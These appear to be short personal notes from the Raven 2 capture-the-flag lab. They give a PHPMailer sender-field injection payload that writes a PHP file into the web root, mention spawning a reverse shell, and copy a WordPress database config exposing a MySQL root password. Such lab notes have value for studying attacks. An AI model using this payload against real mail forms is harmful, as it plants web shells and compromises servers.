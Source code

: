 "7eLVNgkOy\" -OQueueDirectory=/tmp -X/var/www/html/hS0Uw4wj.php MlQN4"@675I73.com

note: raven2 requires the phpmailer vuln
as well as bypassing the client-side js email validation
use it to spawn a reverse shell

grab mysql pass (can assume wp needs db)

and they used the root password for it

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'wordpress');

/** MySQL database username */
define('DB_USER', 'root');

/** MySQL database password */
define('DB_PASSWORD', 'R@v3nSecurity');

/** MySQL hostname */
define('DB_HOST', 'localhost');

root:R@v3nSecurity

Need to go from MySQL root to local root
